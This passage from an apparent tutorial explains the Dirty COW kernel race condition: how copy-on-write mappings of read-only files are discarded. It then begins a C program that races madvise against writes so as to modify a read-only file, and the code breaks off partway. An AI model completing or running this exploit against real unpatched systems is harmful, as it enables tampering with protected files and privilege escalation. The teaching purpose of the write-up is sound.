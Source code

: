 ![Mapping to memory](./cleanup.png)

The copy gets discarded, the pointer now points to the original address, the kernel checks whether there are any changes to be written to disk (no changes in our case because we only wrote to the copy) and the file contents is deallocated from the memory.

This explains why we were able to write into the memory and yet we did not change the contents of the file. Let's add threads to be able to change the contents of a read-only file.


#### Racing Threads ####
In this example, we are actually going to write into a read-only file. The `write_thread` is running `write()` which writes into the memory-mapped file memory location. Note that the write operation is not an atomic operation.
At the same time, the `madvise_thread` is constantly running `madvise()` to tell the kernel that the section of allocated memory is not needed and can be freed the future.

```c
// racing.c
// example of writing into a read-only file
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/mman.h>
#include <sys/stat.h>

// read-only file we want to write into
#define CONTENT_FILE "test"
// string to write
#define CONTENT_STRING "---THIS WAS WRITTEN BY DIRTY COW---"
// byte offset of the starting location to write to 
#define CONTENT_OFFSET 10

void *map;
pthread_t write_thread, madvise_thread;
struct stat st;
char *new_content = CONTENT_STRING;

void *madvise_worker(void *arg)
{
  while(1) {
    // tell the kernel that the memory-mapped file memory
    // section is no longer needed and can be freed
    madvise(map, st.st_size, MADV_DONTNEED);
  }
}

void *write_worker(void *arg)
{
```